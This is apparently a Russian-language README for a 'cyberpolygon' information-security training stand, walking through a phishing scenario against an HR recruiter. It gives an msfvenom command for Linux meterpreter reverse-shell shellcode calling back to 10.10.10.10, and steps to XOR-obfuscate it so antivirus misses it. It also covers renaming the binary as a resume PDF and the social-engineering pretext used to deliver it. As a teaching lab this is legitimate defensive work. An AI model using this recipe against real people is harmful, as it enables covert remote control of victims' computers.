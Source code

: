 # cyberpolygon
cyberpolygon for information security training

Добавить видео работы или в гиф превратить

### Для работы стенда необходимо ввести след команды
![Image alt](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-27-14.png)

### Сценарий

## Что делает хакер

Хакер ищет себе жертву, которой в дальнейшем отправит вредоносный файл. С помощью социальной инженерии злоумышленник находит одну компанию на hh и звонит рекрутеру. Общаясь он рассказывает, как заинтересован в работе. После их разговора, хакер обещает прислать денису на почту резюме. 
На деле же вместо резюме лежит заархивированный вредоносный файл.

## что делает hr

Кадровик Денис заходит на почту и видит примерно следующее сообщение, которое оставил ему его телефонный собеседник: 

“Здравствуйте еще раз! я заинтересован в вашей работе. Вот мое резюме” 
Его впечатлил телефонный разговор и он бежит побыстрее посмотреть его резюме.

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-36-50.png)

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-09.png)

Тем временем у атакующего включен meterpreter listener и он получает оболочку , тем самым имея возможность загрузить любые файлы и выполнить любой код. 

Чем он и пользуется, закидывая hr-ру файлик hacked.txt , в котором сообщается, что тот взломан

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-19.png)

Так выглядят Отработавшие скрипты HR:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-34.png)


и hacker:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-47.png)

## Описание созданного вируса

Вирус состоит из 2-х файлов : hack.c , encoder_beautiful.c 

Создадим переменную массива беззнаковых символов с именем buf, которая содержит наш шелл-код вывод в формате C из msfvenom. Это в будущем поможет нам получить оболочку и выполнять любые команды на компьютере жертвы.

Чтобы избежать обнаружения сканерами, мы замаскируем исходную строку шелл-кода. Мы можем сделать это, создав программу-кодировщик (encoder_beautiful) для выполнения операции XOR с нашей полезной нагрузкой meterpreter.

Затем мы возьмем выходные данные нашего кодировщика и заменим полезную нагрузку нашей исходной оболочки C на запутанную версию, которую мы создали. И добавим декодер XOR в нашу исходную программу на C, чтобы деобфусцировать полезную нагрузку в памяти перед ее выполнением.

#### Порядок команд для получения готового вируса

Сгенерируем 64-битный незакодированный шеллкод с помощью msfvenom с типом вывода «c» на Kali след. командой : 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c 
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-42-24.png)

Скопируем char buf[] и вставим это в программу encoder_beautiful.c
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-04.png)

Скомпилируем командой gcc encoder_beautiful.c -o encoder_beautiful.elf

запустим ./encoder_beautiful.elf - теперь это надо скопировать
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-17.png)

Затем мы вставим char buf[] в программу на C, которая будет действовать как оболочка для загрузки и запустит шеллкод.

Скомпилировать след. командой файл hack.c


![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-40.png)


Получен готовый вирус, который необходимо закинуть жертве. Попробуем переименовать его вместо hack.elf в resume_for_hr.pdf

Настроим прослушиватель:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-50.png)

Запустим:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-00.png)


И получаем оболочку:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-08.png)


## Результаты сканирования антивирусных систем

Анализ сканирования касперским нашего вредоносного файла hack.elf показал следующий результат :

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-26.png)


Анализ сканирования касперским нашего вредоносного файла resume.pdf показал следующий результат :

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-35.png)


Результат сканирования написанного вируса на virustotal :

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-55.png)


